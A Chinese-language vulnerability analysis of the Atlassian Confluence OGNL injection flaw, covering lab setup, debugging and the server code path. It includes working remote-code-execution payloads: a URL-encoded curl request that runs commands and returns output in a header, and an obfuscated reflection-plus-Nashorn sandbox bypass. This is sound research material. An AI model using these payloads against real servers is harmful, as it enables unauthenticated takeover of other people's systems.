# 漏洞概述

- Atlassian Confluence Server and Data Center < 7.4.17
- 7.5.0 ≤ Atlassian Confluence Server and Data Center < 7.13.7
- 7.14.0 ≤ Atlassian Confluence Server and Data Center < 7.14.3
- 7.15.0 ≤ Atlassian Confluence Server and Data Center < 7.15.2
- 7.16.0 ≤ Atlassian Confluence Server and Data Center < 7.16.4
- 7.17.0 ≤ Atlassian Confluence Server and Data Center < 7.17.4
- 7.18.0 ≤ Atlassian Confluence Server and Data Center < 7.18.1

# 环境搭建

```
wget https://downloads.atlassian.com/software/confluence/downloads/atlassian-confluence-7.4.4-x64.bin
chmod +x atlassian-confluence-7.4.4-x64.bin
./atlassian-confluence-7.4.4-x64.bin     # 选择自定义安装，其他默认即可（此处以root权限执行安装，普通用户权限安装的话默认安装目录不一样）

# 安装mysql驱动
wget https://cdn.mysql.com//Downloads/Connector-J/mysql-connector-java_8.0.29-1ubuntu18.04_all.deb

# 解压上述deb包，在/usr/share/java/目录下可看到 mysql-connector-java-8.0.29.jar
dpkg -X mysql-connector-java_8.0.29-1ubuntu18.04_all.deb .

cp ./usr/share/java/mysql-connector-java-8.0.29.jar /opt/atlassian/confluence/confluence/WEB-INF/lib

# 重启confluence（root权限执行安装，在 /init.d 目录下才有这个文件）
/etc/init.d/confluence restart


# 安装并设置mysql
sudo apt update
sudo apt install mysql-server-5.7
mysql -u root
alter user 'root'@'localhost' identified with mysql_native_password by '你的mysql密码';
create database jiradb;
alter database jiradb character set utf8;
alter database jiradb default collate utf8_bin;
set global transaction isolation level  Read committed;

```

默认运行在端口 8090，访问 http://ip:8090/ 即可进入web安装流程

许可证直接跟着操作登陆就有了



最后一步设置系统管理员密码的时候记得密码强度要满足一定的要求，输入简单的密码点下一步会导致安装报错

之前就是设置简单了，需要把MySQL中的数据库删除重新来

## **配置idea远程调试**

```
vim /opt/atlassian/confluence/bin/setenv.sh

# 在 export CATALINA_OPTS 这一行上面加上如下一行：

CATALINA_OPTS="-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005 ${CATALINA_OPTS}"

# 重启confluence
/etc/init.d/confluence restart
```

将/opt/atlassian目录下的confluence源码复制出到物理机

使用IDEA将/confluence/WEB-INF下的atlassian-bundled-plugins、atlassian-bundled-plugins-setup、lib文件拉取为依赖文件



添加远程调试，端口5005



debug去连接



# 漏洞复现

```
curl -vv http://192.168.111.130:8090/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22ls%20/%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Response%22%2C%23a%29%29%7D/
```





# 漏洞分析

下载 `atlassian-confluence-7.18.0` 和 `atlassian-confluence-7.18.1`，diff一下，发现修改的地方主要是

`ActionChainResult.class`中



看到调用栈



经过一系列Filter处理后，将进入Servlet 的分发器 `ServletDispatcher`，从`servletDispatcher`开始



在这个方法下断点

payload如下

```
http://192.168.111.130:8090/%24%7b%34%2a%34%7d/index.action/
```

这里调用了serviceAction方法，通过`getNameSpace，getActionName，getRequestMap`， `getSessionMap` 、 `getApplicationMap` 提取相应参数，参数对应如下

- `getNameSpace(request)` -> `namespace`
- `getActionName(request)` -> `actionName`
- `getRequestMap(request)` -> `requestMap`
- `getParameterMap(request)` -> `parameterMap`
- `getSessionMap(request)` -> `sessionMap`
- `getApplicationMap()` -> `applicationMap`

跟进`getNameSpace`

```
protected String getNameSpace(HttpServletRequest request) {
    String servletPath = request.getServletPath();
    return getNamespaceFromServletPath(servletPath);
}
```

跟进`getServletPath`



返回的是ip地址后的路径加上了`index.action`，跟进`getNamespaceFromServletPath`



返回的是最后一个`/`之前的部分，回到`ServletDispatcher`的service方法，跟进`serviceAction`



实例化了ActionProxy，因为这是一个接口类，所以实例化其子类，`DefaultActionProxy`，然后调用其execute方法



进入DefaultActionInvocation的invoke方法





调用 Struts Interceptor 拦截器对象对请求进行处理，interceptors一共有28个拦截器，通过next来获取，并调用其intercept方法



随便跟进一个intercept方法，会调用invoke会到DefaultActionInvocation的invoke达到迭代调用的目的

从前面调用栈来看，当处理到了ConfluenceAccessInterceptor#intercept后不会继续调用invoke函数，而是将返回 notpermitted 并赋值给 resultCode，跳出循环，跟进到ConfluenceAccessInterceptor#intercept

```
public String intercept(ActionInvocation actionInvocation) throws Exception {
    return ContainerManager.isContainerSetup() && !this.isAccessPermitted(actionInvocation) ? "notpermitted" : actionInvocation.invoke();
}
```

一个三目运算符的判断，主要是isAccessPermitted，跟进一下

```
private boolean isAccessPermitted(ActionInvocation actionInvocation) {
    return ((ActionAccessChecker)this.actionAccessChecker.get()).isAccessPermitted(actionInvocation.getAction(), actionInvocation.getProxy().getConfig().getMethodName());
}
```

继续跟进isAccessPermitted



主要是通过请求的 `*.action` 和 `methdName` ，来判断当前用户 `currentUser` 是否有访问权限。也就是说，当访问一个无权访问的 `*.action` 时，`DefaultActionInvocation#invoke` 在迭代调用到 `ConfluenceAccessInterceptor#intercept` 后，将返回 `notpermitted` 并赋值给 `resultCode`

这里我并没有登陆，所以此时IndexAction对我来说是一个无权访问的，所以会返回ConfluenceAccessInterceptor#intercept会返回notpermitted



接下来会调用executeResult方法



进入ActionChainResult的execute方法



这里namespace是通过getNamespace获取到的，和前面一样，打断点的地方就是补丁修改的地方了

跟进translateVariables，根据pattern正则表达式构造去对应的url



通过findValue继续解析，跟进findValue

```
public Object findValue(String expr) {
    try {
        if (expr == null) {
            return null;
        } else {
            if (this.overrides != null && this.overrides.containsKey(expr)) {
                expr = (String)this.overrides.get(expr);
            }

            return this.defaultType != null ? this.findValue(expr, this.defaultType) : Ognl.getValue(OgnlUtil.compile(expr), this.context, this.root);
        }
    } catch (OgnlException var3) {
        return null;
    } catch (Exception var4) {
        LOG.warn("Caught an exception while evaluating expression '" + expr + "' against value stack", var4);
        return null;
    }
}
```

在getValue达到解析ognl表达式的目的



会去掉括号



value的值变成了4*4的值为16，说明触发了ognl表达式

# 沙盒绕过

在 confluence > 7.15 的时候，增加了沙箱，分别做了一些黑名单和白名单处理，但是可以通过反射 + js 引擎绕过

下面是p牛的payload

```java
${Class.forName("com.opensymphony.webwork.ServletActionContext").getMethod("getResponse",null).invoke(null,null).setHeader("X-CMD",Class.forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("nashorn").eval("eval(String.fromCharCode(118,97,114,32,115,61,39,39,59,118,97,114,32,112,112,32,61,32,106,97,118,97,46,108,97,110,103,46,82,117,110,116,105,109,101,46,103,101,116,82,117,110,116,105,109,101,40,41,46,101,120,101,99,40,39,105,100,39,41,46,103,101,116,73,110,112,117,116,83,116,114,101,97,109,40,41,59,119,104,105,108,101,32,40,49,41,32,123,118,97,114,32,98,32,61,32,112,112,46,114,101,97,100,40,41,59,105,102,32,40,98,32,61,61,32,45,49,41,32,123,98,114,101,97,107,59,125,115,61,115,43,83,116,114,105,110,103,46,102,114,111,109,67,104,97,114,67,111,100,101,40,98,41,125,59,115))"))}
```

## 

# 写在最后

这次漏洞主要是对解析过程的一次了解，另外学到了ognl表达式这种可以通过设置响应头来回显


参考链接

https://paper.seebug.org/1912/#_2

https://www.anquanke.com/post/id/274026#h2-4

https://blog.csdn.net/wanzt123/article/details/125156260
